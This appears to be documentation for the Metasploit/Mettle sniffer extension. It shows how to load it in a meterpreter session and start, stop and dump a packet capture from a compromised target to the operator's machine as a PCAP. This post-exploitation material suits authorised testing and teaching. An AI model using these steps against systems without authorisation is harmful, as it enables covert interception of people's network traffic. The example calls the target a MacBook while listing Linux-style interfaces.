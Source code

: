 SNIFFER EXTENSION
=================

This loadable extension allows users to capture network traffic on a target.

Loading the Sniffer
-------------------

Once you've established a connection to Mettle, you can load the sniffer extension with the following command in your msfconsole terminal:

`load sniffer`

If things go according to plan, you should get a message that the extension was successfully loaded:

```
meterpreter > load sniffer
Loading extension sniffer...Success.
```

Using the Sniffer
-----------------

The sniffer commands operate on a similar paradigm as the keylogger extension commands do.  You can see the available commands with `help` in your msfconsole terminal:

```
Sniffer Commands
================

    Command             Description
    -------             -----------
    sniffer_dump        Retrieve captured packet data to PCAP file
    sniffer_interfaces  Enumerate all sniffable network interfaces
    sniffer_release     Free captured packets on a specific interface instead of downloading them
    sniffer_start       Start packet capture on a specific interface
    sniffer_stats       View statistics of an active capture
    sniffer_stop        Stop packet capture on a specific interface
```

An Example
----------

In this example, I will load the sniffer extension on my target MacBook and then do the following:

* list the available network interfaces
* start sniffing on an interface
* on the target, the user will initiate the folloing actions which use the network interface the sniffer estension is monitoring:
  * ping Google's DNS server at 8.8.8.8
  * run curl to load the `archive.org` webpage
* stop sniffing
* dump the sniffed data from my target as a pcap file in my MSF instance

```
meterpreter > load sniffer
Loading extension sniffer...Success.
meterpreter > sniffer_interfaces

1 - 'enp0s3' ( usable:true )
2 - 'enp0s8' ( usable:true )
3 - 'Pseudo-device that captures on all interfaces' ( usable:true )
4 - 'lo' ( usable:true )
5 - 'docker0' ( usable:false )
6 - 'USB bus number 1' ( usable:false )

meterpreter > sniffer_start 1 2000
[*] Capture started on interface 1 (2000 packet buffer)
meterpreter > sniffer_stats 1
[*] Capture statistics for interface 1
	packets: 133
	bytes: 162537
meterpreter > sniffer_stop 1
[*] Capture stopped on interface 1
[*] There are 133 packets (162537 bytes) remaining
[*] Download or release them using 'sniffer_dump' or 'sniffer_release'
meterpreter > sniffer_dump 1 mycap.pcap
[*] Flushing packet capture buffer for interface 1...
[*] Flushed 133 packets (165197 bytes)
[*] Download completed, converting to PCAP...
[*] PCAP file written to mycap.pcap
```
